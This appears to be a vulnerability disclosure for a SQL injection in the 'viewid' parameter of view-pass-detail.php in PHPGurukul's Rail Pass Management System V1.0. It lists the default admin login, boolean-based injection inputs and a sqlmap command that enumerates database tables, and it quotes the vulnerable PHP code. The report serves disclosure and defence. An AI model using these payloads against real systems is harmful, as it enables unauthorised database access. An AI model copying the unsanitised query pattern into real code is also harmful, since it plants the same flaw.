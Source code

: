 # [Rail Pass Management System-SQL Injection-view-pass-detail.php]

## Basic Information

**[Bug Reporter]:** DiliLearngent

**[Application Vendors]:** `https://phpgurukul.com/rail-pass-management-system-using-php-and-mysql/`

**[Affected Version]:** Rail Pass Management System V1.0

**[Test Environment]:** windows10+apache+php5.6+mysql5.5

**[Install]:**

1. Download the zip file

2. Extract the file and copy `rpms` folder

3. Paste inside root directory(for xampp xampp/htdocs, for wamp wamp/www, for lamp var/www/HTML)

4. Open PHPMyAdmin (http://localhost/phpmyadmin)

5. Create a database with the name `rpmsdb`

6. Import `rpmsdb.sql` file(given inside the zip package in the SQL file folder)

7. Run the script `http://localhost/rpms`

**Credential for Admin panel :**

**Username:** admin
**Password:** Test@123

## Bug Information

**[Vulnerability type]:** SQL Injection

**[Vulnerability Url]:** `http://localhost/rpms/admin/view-pass-detail.php?viewid=1`    

**[Vulnerability Location]:** /rpms/admin/view-pass-detail.php

**[Vulnerability Test]:**

1. When you enter `1%20and%201=1` in the `viewid` parameter, the page displays as follows:

   ![](../../img/20230427192806.png)

2. When you enter `1%20and%201=2` in the `viewid` parameter, the page displays as follows:

   ![](../../img/20230427192829.png)

3. Testing with sqlmap

   ```
   python sqlmap.py -u "http://localhost/rpms/admin/view-pass-detail.php?viewid=1" --cookie="PHPSESSID=4acbjc61q1opnkih7qmkd6g9t7" -D rpmsdb --tables --batch
   ```

   ![](../../img/20230427213213.png)

**[code analysis]:**

/rpms/admin/view-pass-detail.php

```php
$vid=$_GET['viewid'];
$sql="SELECT * from  tblpass where ID=$vid";
$query = $dbh -> prepare($sql);
$query->execute();
$results=$query->fetchAll(PDO::FETCH_OBJ);
$cnt=1;
if($query->rowCount() > 0)
{
foreach($results as $row)
{               ?>
```

The GET parameter `viewid` is obtained without any filtering and spliced directly into the sql execution statement, and then a different page response exists depending on the result of the execution.